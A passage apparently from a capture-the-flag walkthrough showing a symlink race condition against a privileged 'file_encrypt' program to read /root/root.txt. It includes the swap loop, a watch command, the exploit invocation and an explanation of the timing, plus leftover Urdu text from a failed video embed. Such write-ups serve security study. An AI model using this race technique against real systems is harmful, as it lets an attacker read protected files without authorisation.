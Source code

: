 In the first window, I'll run the following infinite loop:



    while :; do 
        rm l; 
        ln -sf /root/root.txt l; 
        sleep 3; 
        rm l; 
        echo "oops" > l; 
        sleep 3; 
    done



This will swap a file, `l`, between a symlink to `root.txt` and a file
with the string "oops" in it every three seconds.

In the next window, I'll start a watch:



    tester@overflow:/tmp/0xdf$ watch -d -n 1 'ls -l o l'



This will run `ls -l o l` every second and give the results. This allows
me to see what `l` is currently.

![](/img/image-20210930095520033.png)

In the third window, I'll prep my exploit to encrypt `l`:



    tester@overflow:/opt/file_encrypt$ python3 /tmp/sploit.py /tmp/0xdf/l /tmp/0xdf/o | ./file_encrypt



I'll want to wait to run this until I see that `l` contains "oops". Once
it switches there, I'll immediately hit enter. It will `stat` on `l` and
see a normal file not owned by root. Then it sleeps three seconds. While
that sleep is happening, the three second sleep in the while loop will
end, and replace `l` with a symlink. When when the sleep in
`file_encrypt` ends, it will read via the symlink `root.txt` and encrypt
it.

[This video](https://www.youtube.com/watch?v=ZroW5AHGK6Q) gives a quick
demonstration of how all this works:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=ZroW5AHGK6Q){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔
